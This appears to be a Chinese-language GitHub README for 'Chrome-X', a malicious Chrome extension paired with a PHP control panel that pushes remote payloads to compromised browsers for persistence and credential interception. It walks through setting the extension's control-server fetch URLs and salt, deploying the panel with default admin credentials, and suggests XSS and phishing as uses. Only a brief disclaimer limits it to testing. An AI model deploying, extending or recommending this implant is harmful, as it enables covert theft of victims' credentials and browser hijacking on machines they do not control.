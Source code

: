 # Chrome-X 后渗透持久化与凭据监听 🚀

## 项目介绍 📝

Chrome-X 是一个用于后渗透持久化与票据监听的平台。

## 功能特点 ✨

- 👥 每个插件用户可设置唯一值，以防接口暴漏被爆破
- 📊 后台可远程更新payload
- ⚙️ 实现持久化与凭据监听
- 🔒 自定义payload可实现不同场景需求
- 📱 可实现植入任何网站

## 系统要求 🛠️

- PHP 7.4 或更高版本
- MySQL 5.7 或更高版本

## 插件端配置 📦

1. background.js文件修改

   修改3和4行为用户的用户名和盐

   ```js
   const USERNAME = 'test';
   const SALT = '666';
   ```

   第19行 修改API

   ```js
   const response = await fetch(`https://127.0.0.1/api/getuser.php?hash=${hash}`
   ```

   

2. content.js文件修改

   修改第64行API

   ```js
   const response = await fetch(`https://127.0.0.1/api/getuser.php?hash=${hash}`, {
   ```


## 控制端部署 📦

1. 建议部署在宝塔 给所有文件权限 否则生成sessions会报错

2. 配置数据库文件 /config/config.php

   ```js
   // MySQL数据库配置
   define('DB_HOST', 'localhost');
   define('DB_NAME', 'chrome_x');
   define('DB_USER', 'chrome_x');
   define('DB_PASS', 'chrome_x');
   define('DB_CHARSET', 'utf8mb4'); 
   ```

   

### 1. 使用指南 🔑

- 访问 `http://your-domain/`
- 默认管理员账号：admin 密码：admin_hack 【修改密码请到数据库手动修改 或者下个版本修复问题】
- ![登入](https://github.com/user-attachments/assets/e733ba3e-3ccd-4d82-a0d8-f26280af55f5)
- 首页添加用户 用户名和盐必须和插件的一致
- ![添加用户](https://github.com/user-attachments/assets/9b02a2e2-d908-46d8-87a6-a7a575b5f898)
- 设置payload 其他玩法自行发掘 如：XSS平台等
- ![payload](https://github.com/user-attachments/assets/d6a39074-ea8b-4494-b71b-aafe0dd1c050)
- 用户过多分辨不清 可添加备注
![备注](https://github.com/user-attachments/assets/dc22fe2e-0102-4490-94c0-ccbc91a74d32)
- 测试持久化劫持与凭据获取
- ![测试截图2](https://github.com/user-attachments/assets/ab62d618-05b4-48f6-80a8-41f4dbe12b27)
- ![测试截图](https://github.com/user-attachments/assets/8247864a-4d7a-4f6e-9d39-7438028cb622)
- ![XSS](https://github.com/user-attachments/assets/eda5c1fc-fc65-4ca5-89f5-6eba705ddca2)


### 

## 常见问题 ❓

### 1. 登录失败

- 检查用户名和密码是否正确
- 确认数据库连接是否正常
- 检查是否给了文件权限 因为sessions需要生成文件

### 2. 修改密码失败

- 此功能是个bug 或在下个版本修复
- 请进入数据库手动修改

### 3. 用途建议

- XSS
- 钓鱼

## 工具思路 🔒

1. 获取到PC权限后想进行后渗透和持久化凭据劫持，利用安装Chrome插件和控制端配置，可远程修改payload，凭据劫持配合XSS平台使用。

## 下载地址 💻



```

```

## 免责声明 🆘

本程序只允许测试使用，禁止用于违法犯罪活动，否则一切后果将自行承担。

